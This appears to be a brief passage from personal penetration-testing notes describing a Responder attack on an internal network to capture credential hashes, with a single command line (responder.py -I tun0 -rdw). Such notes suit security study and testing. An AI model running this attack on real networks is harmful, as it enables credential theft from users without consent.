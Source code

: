 ![](/assets/Images-Notes-01/2022-01-06-21-50-11.png)

### Attack
**Attack Condition** : MITM and internal network.

**Attack Method**
1. Run `responder`
2. Trigger / Wait for an event.
3. Capture Hashes.


```bash
responder.py -I tun0 -rdw
```